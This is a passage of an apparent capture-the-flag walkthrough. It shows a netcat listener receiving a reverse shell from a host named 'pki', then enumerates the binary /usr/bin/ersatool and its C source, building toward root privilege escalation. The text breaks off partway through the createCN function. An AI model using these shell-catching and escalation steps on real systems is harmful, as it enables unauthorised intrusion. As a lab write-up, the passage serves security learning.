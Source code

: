 ```console
www-data@web:/tmp$ ./nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.254.2] from (UNKNOWN) [192.168.254.3] 59116
/bin/sh: 0: can't access tty; job control turned off
$ hostname
pki
$
```

Now we are inside of **pki**, at this point I've made a tty treatment. Let's check printable characters of the binary **/usr/bin/ersatool** that generates the **.ovpn** files (I will omit some part of the output because is too long).

```console
www-data@pki:~/html$ strings /usr/bin/ersatool 
deregister_tm_clones
__do_global_dtors_aux
completed.7325
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
ersatool.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
```

**ersatool.c** could be the source code of **/usr/bin/ersatool**. Let's find it.

```console
www-data@pki:/$ find \-name ersatool.c 2>/dev/null
./usr/src/ersatool.c
```

In this script there is some functions that elevates to root privileges. Let's check the function **createCN** that do this.

```
//creates and prints new CN config file
void createCN(char *cn, int i){
	int devNull, sout, serr, pid, status, oid;
	char EASYRSA[50];
	char buffer[100];
	char CMD[100];
	char WD[50];
	
	memset(EASYRSA,0,sizeof(EASYRSA));
	strcat(EASYRSA,ERSA_DIR);
	strcat(EASYRSA,"/easyrsa");

	if(i==1){
		printf("create->CN=");
		fflush(stdout);
		memset(buffer,0,sizeof(buffer));
		read(0,buffer,sizeof(buffer));
	} 
	else { 
		memset(buffer,0,sizeof(buffer));
		strncat(buffer, cn, sizeof(buffer));
	}

	if(!strncmp("\n",buffer,1)) { return; }

```